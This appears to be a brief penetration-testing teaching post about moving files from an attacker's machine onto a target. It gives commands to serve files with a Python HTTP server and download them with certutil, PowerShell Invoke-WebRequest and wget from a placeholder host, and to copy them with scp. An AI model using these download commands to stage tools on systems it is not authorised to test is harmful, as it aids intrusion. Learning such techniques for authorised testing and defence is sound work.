 ```yaml
---
title: "Teaching experience 1"
collection: posts
type: "Undergraduate course"
permalink: /posts/File-Transfert
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
 ## Using Python
```bash
python3 -m http.server PORT_NUMBER
```
##
Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```
##
There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
 ```cmd
 scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
 ```